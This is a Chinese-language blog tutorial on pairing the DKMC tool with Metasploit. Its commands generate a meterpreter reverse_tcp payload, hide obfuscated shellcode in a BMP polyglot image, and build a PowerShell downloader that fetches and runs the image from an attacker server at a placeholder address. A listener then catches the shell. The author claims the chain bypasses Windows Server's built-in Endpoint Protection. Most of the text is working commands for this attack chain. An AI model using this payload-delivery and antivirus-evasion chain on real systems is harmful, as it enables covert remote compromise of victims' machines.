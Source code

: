 ```yaml
---
title: DKMC-MSF
comments: false
typora-root-url: ..
typora-copy-images-to: ../images
date: 2018-06-19 15:58:20
tags:
- MSF
- DKMC
categories:
- 内网安全
permalink:
---
```

<blockquote class="blockquote-center">黑夜无论怎样悠长,<br>白昼总会到来</blockquote>

> DKMC 是一个生成混杂的shellcode且存储在polyglot图像的工具，具体内容可以参考[DKMC presentation 2017](https://github.com/Mr-Un1k0d3r/DKMC/blob/master/DKMC%20presentation%202017.pdf)。

### 安装DKMC

```
git clone https://github.com/Mr-Un1k0d3r/DKMC.git
cd DKMC
mkdir output
```

![image-20180619161008984](/images/image-20180619161008984.png)

### 配合MSF使用

基本流程：

* 生成shellcode （meterpreter、Beacon）
* 在图片中嵌入混淆的shellcode
* powershell 下载图片，并以powershell执行该图片
* getshell

1. 生成以raw格式的meterpreter

   ```
   msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=x.x.x.x lport=x -f raw > test
   ```
   ![image-20180619165318515](/images/image-20180619165318515.png)	

2. 使用sc

  把meterpreter生成shellcode
  ```
  >>> sc
  (shellcode)>>> set source /Users/ff0c/temp/test
  (shellcode)>>> run
  # 复制生成的shellcode，返回主菜单，进入gen
  ```

3. 使用gen

  把生成混淆后的shellcode，嵌入到图片中

  ```
  >>> gen
  (generate)>>> set source sample/haha.bmp  # 图片可以自己更换
  [+] source value is set.
  
  generate)>>> set output output/1.bmp	  # 可以默认
  [+] output value is set.
  
  (generate)>>> set shellcode 粘贴之前生成的shellcode
  # 这里mac下不能粘贴所完整的shellcode，原因不明，在centos下没问题。
  ```
  ![image-20180619173036218](/images/image-20180619173036218.png)

4. 使用ps

  将bmp的图片地址，转换成powershell代码

  ```
  >>> ps
  (powershell)>>> set url http://x.x.x.x:8080/1.bmp
  [+] url value is set.
  
  (powershell)>>> run
  [+] Powershell script:
  # 复制生成的powershell代码，保存为bat或者ps1即可
  ```

  ![image-20180619174017338](/images/image-20180619174017338.png)

5. 使用web

  ```
  >>> web
  (web)>>> set port 8080
  	[+] port value is set.
  
  (web)>>> run
  	[+] Starting web server on port 8080
  ```

  ![image-20180619174624847](/images/image-20180619174624847.png)

6. 开启msf监听

   ```
   msf5 > use exploit/multi/handler
   msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   # 设置好主机端口，开启后台监听
   msf5 exploit(multi/handler) > exploit -j
   # 在被控主机上使用前面保存的bat脚本，执行。发现可以绕过windows server 自带的Endpoint Protection杀毒软件。
   ```

   ![image-20180620104519742](/images/image-20180620104519742.png)

   ![image-20180620104732496](/images/image-20180620104732496.png)

   ![image-20180620110524554](/images/image-20180620110524554.png)

   ![image-20180620110701921](/images/image-20180620110701921.png)

